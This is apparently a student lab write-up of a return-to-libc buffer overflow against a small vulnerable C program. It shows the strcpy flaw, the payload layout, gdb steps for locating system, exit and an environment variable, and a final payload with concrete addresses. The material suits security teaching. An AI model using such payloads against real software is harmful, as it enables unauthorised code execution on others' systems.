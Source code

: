 ```
char buffer[16];
strcpy(buffer, argv[1]);
```

If we want to exploit
- 20 bytes to overwrite buf and ebp
- 4 bytes to overwrite ret addr of vuln with the address of system
- 4 bytes for the address of exit
- 4 bytes for argument of system (exploit path that we created before)

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

## 6. Use gdb to get address

Use gdb for this c program

```
gdb -q vuln.out
```

Start the code

```
start
```

Print out the address of those things

```
print system
print exit
find /home/seed/seclabs/bof/midterm/file_copy
```

<img alt="Screenshot" src="./img/task1/5.png">

- 0xf7e50db0: Address of libc_system
- 0xf7e449e0: Address of exit to avoid crashing
- 0xffffdf59: Address of env variable

Therefore, the final command is

```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x59\xdf\xff\xff')")
```
